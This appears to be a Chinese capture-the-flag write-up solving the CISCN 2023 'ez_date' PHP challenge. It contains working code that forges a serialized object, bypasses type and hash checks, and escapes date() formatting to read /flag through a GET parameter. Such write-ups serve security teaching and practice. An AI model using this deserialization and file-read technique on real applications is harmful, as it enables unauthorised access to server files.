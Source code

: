 ## 基本信息

* 题目名称： [CISCN 2023 华北]ez_date
* 题目链接： https://www.nssctf.cn/problem/4096
* 考点清单： 反序列化，弱比较，正则表达式，hash 函数，PHP
* 工具清单： PHP环境
* payloads： 弱比较绕过，转义符绕过

## 一、看到什么

**题目关键信息列表**：

1. `PHP 源代码`: 该题的PHP 源码，本题的唯一线索。


## 二、想到什么解题思路

1. 源码审计：

   - 主要部分定义了类`date`；
   - 在最后有`$_GET['code']`接受传参；
   - 出现`unserialize`函数。

   可能是考察 PHP 的反序列化；

2. 类`date`定义三个公有属性和一个`__wakeup`函数，明显是通过精心构造类的属性来获取flag；

3. 函数有两个`if`，并在第二个`if`块最后有`echo file_get_contents($data);`可能是能够输出flag的部分。

## 三、尝试过程和结果记录

**代码解读：**

- `if(is_array($this->a)||is_array($this->b))`说明`$a`和`$b`不能为数组，不能使用数组绕过；

- `if( ($this->a !== $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) )`

  这个判断条件说明`$a`和`$b`需要满足：

  - `$a`不能强等于`$b`；
  - `$a`的md5强等于`$b`的md5；
  - `$a`的sha1强等于`$b`的sha1。

- `date()`函数会将特定的字母转化为特定的时间表达格式；

- `uniqid()`函数用于生成唯一随机字符串（uuid）；

当进入第二个`if`块之后，使用`date()`函数对`$file`的内容进行处理，然后随机生成一个uuid作为文件名，将`$content`写入这个文件，最后对文件内容进行正则替换，正则表达式含义如下：

- `/`：正则表达式开始符
- `(`：开始一个子匹配组
- `)`：结束一个子匹配组
- `\s`：匹配任意空白字符，如space、tab等
- `\n`：匹配换行符
- `*`：匹配0个或多个前面的表达式
- `+`：匹配1个或多个前面的表达式
- `/i`：不区分大小写

综上，代码中的正则表达式作用是将文件中所有连续的空白符、换行符替换为空字符串。

**尝试过程：**

1. 尝试构造`$a`和`$b`绕过第二个`if`条件，进入`if`块内：

   搜索MD5，PHP比较关键字，找到参考：https://www.cnblogs.com/linfangnan/p/13411103.html，介绍了PHP弱比较和相关例题，由此联想到`md5()`和`sha1()`函数接受的参数是 **字符串** 或 **数字**，由于字符串和数字是不同对象，但是可以值相同，所以可以根据这一特性构造，尝试如下：

   ```php
   <?php
   
   $a=1;
   $b="1";
   
   echo md5($a)."\n".md5($b)."\n";
   
   if( ($a !== $b) && (md5($a) === md5($b)) && (sha1($a)=== sha1($b)) ){
       echo "success!";
   }
   
   /*
   c4ca4238a0b923820dcc509a6f75849b
   c4ca4238a0b923820dcc509a6f75849b
   success!
   */
   ```

   说明可以构造`数字1`和`字符串"1"`来绕过判断条件。

2. 尝试构造`$file`以获取flag，反推代码逻辑：

   1. 根据`echo file_get_contents($data);`反推，如果要输出`/flag`的内容，需要满足`$data="/flag"`；
   2. 若满足`$data="/flag"`，需要满足`$uuid`这个文件的内容经过正则去除特殊字符后仍为`"/flag"`；
   3. 所以`$content=date($this->file);`需要满足`$file`经过`date()`函数后为`/flag`。

   问题归结为构造`$file`经过`date()`函数后为`/flag`（允许有换行符等特殊字符串）。

   ```php
   echo date('/flag'); # 输出：/fTuesdaypm5
   # 可以通过转义符'\'避免被转义
   echo date('/f\l\a\g'); # 输出：/flag
   ```

3. 构造反序列化链：

   `code 传参`->`base64解码`->`反序列化`->`触发__wakeup()函数`->`绕过if条件`->`绕过data()`->`输出flag`

   ```php
   class date
   {
       public $a = 1;
       public $b = '1';
       public $file = "/f\l\a\g";
   }
   
   $a = new date;
   echo base64_encode(serialize($a));
   # Tzo0OiJkYXRlIjozOntzOjE6ImEiO2k6MTtzOjE6ImIiO3M6MToiMSI7czo0OiJmaWxlIjtzOjg6Ii9mXGxcYVxnIjt9
   ```

4. 根据题源代码，GET传参，访问http://node5.anna.nssctf.cn:24441/?code=Tzo0OiJkYXRlIjozOntzOjE6ImEiO2k6MTtzOjE6ImIiO3M6MToiMSI7czo0OiJmaWxlIjtzOjg6Ii9mXGxcYVxnIjt9获得flag

## 四、总结与反思

1. PHP弱比较、强比较特性：

   **`==`（等于）、`!=`（不等）**：比较 **值是否相等**，会 **自动转换类型**（类型转换后再进行比较）；

   **`===`（全等，严格相等）、`!==`（不全等，严格不等）**：比较 **值和类型是否完全相等**，不会进行 **类型转换**，同时比较值和类型。

2. 注意转义符的使用，面对特定函数的时候有奇效。